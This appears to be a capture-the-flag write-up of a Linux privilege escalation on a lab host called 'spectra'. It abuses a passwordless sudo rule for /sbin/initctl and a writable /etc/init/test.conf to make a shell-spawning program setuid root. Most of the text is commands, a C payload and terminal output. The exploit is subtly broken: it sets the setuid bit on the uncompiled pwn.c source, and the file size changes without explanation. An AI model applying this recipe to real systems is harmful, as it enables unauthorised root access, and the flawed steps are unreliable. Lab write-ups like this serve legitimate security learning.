   katie@spectra ~ $ sudo -l
    User katie may run the following commands on spectra:
        (ALL) SETENV: NOPASSWD: /sbin/initctl

initctl handles all startup scripts, which are stored in /etc/init/. We don't have any write access to the folder, however there
are 10 test.conf-file that we have write permissions over.

  katie@spectra /etc/init $ ls -al
    -rw-rw----  1 root developers   478 Jun 29  2020 test.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
    -rw-rw----  1 root developers   478 Jun 29  2020 test9.conf


Create a malicious script that will start a new shell:
  katie@spectra ~ $ cat pwn.c
    int main()
    {
         setgid(0);
         setuid(0);
         system("/bin/bash");
    }

Note that the privs are nothing special:
  katie@spectra ~ $ ls -al
    -rw-r--r-- 1 katie katie   73 May 11 02:57 pwn.c

Edit one of the /etc/init/conf-scripts to setuid and chown the malicious script as root:
  katie@spectra /etc/init $ cat test.conf
    description "Setuid pwn.c PrivEsc"
    author      "PlayerThree"

    start on filesystem or runlevel [2345]
    stop on shutdown

    script

      chown root:root /home/katie/pwn.c
      chmod 4755 /home/katie/pwn.c

    end script

Run the script:
  katie@spectra ~ $ sudo /sbin/initctl start test
    test start/running, process 40624

Note how the privs have changed, we should now be able to trigger a root shell:
  katie@spectra ~ $ ls -al
    -rwsr-xr-x 1 root  root   114 May 11 03:32 pwn.c
